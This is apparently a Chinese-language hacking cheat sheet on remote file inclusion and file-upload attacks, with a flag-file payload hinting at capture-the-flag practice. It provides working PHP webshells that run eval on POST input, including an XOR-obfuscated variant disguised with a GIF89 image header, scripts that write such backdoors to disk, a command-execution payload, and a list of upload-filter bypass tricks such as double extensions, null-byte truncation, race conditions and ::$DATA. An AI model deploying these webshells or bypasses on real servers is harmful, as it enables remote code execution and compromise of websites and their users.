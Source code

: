 # 远程文件包含
```php
<?php
$a = "<?php eval(\$_POST['123'])?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "木马已生成.";    
echo '<br/>';
?>
//自动生成a.php,密码为123
```
```php
<?php
    $myfile = fopen("hack.php", "w");
    $txt = '<?php @eval($_POST["hack"]);?>';
    fwrite($myfile, $txt);
    fclose($myfile);
?>
```
# 文件上传
## 万能图片木马
```php
GIF89
<scRipt language='PHP'>
@$_++;$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");${$__}[!$_](${$__}[$_]);</scRipt>
```
## 异或木马
```php
<?php
@$_++;$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");${$__}[!$_](${$__}[$_]);
?>

<?php
    @$_++; 
    $__=("#"^"|"); 
    $__.=("."^"~"); 
    $__.=("/"^"`"); 
    $__.=("|"^"/"); 
    $__.=("{"^"/"); 
    ${$__}[!$_](${$__}[$_]);
?>
```
- 代码解释
```php
<?php
// $_ = 1
// $__ = _
// _P
// _PO
// _POS
// _POST 
 // $_POST[0]($_POST[1]);
 ?>
```
利用windows特性首先上传名称 

    1.php:.jpg
第二次再上传

    1.<

注意，仅对windows服务器有效

## 制作图片马
    GIF89
    <?php @eval($_POST['gg']);?>  
## 上传图片马，使用文件包含
## hackbar使用post型传参
    gg=system('type C:\1\flag.txt');

# 文件上传绕过

1. js绕过

可以修改网页源代码，或者直接禁用js进行上传

2. 黑名单绕过

可以上传例如php1,php2,phtml等文件

3. 抓包绕过

上传1.jpg，在burp中修改回php再上传

4. 双写绕过

有的waf会判断你的后缀名是否符合规定，例如1.php，这时候waf会删除php，我们改为上传1.phpphp

5. 截断绕过

例如00截断等

6. 解析绕过

上传1.jpg，利用目录解析或者文件包含进行解析，或者上传 .htacess 等文件

7. 条件竞争绕过

上传1.php文件，利用bp抓包，设置多线程，不断发包；

浏览器访问连接我们上传的1.php文件；

不断刷新，会在某瞬间，执行1.php成功。

8. ::$DATA绕黑名单

文件名 .jsp::$DATA

9. 后缀绕过

asp: aspx asa asax ascx ashx asmx cer aSp

php: php2 php3 php4 php5 phtml pht html pHp

jsp: jspa jspx jsw jsv jspf jtml jSp
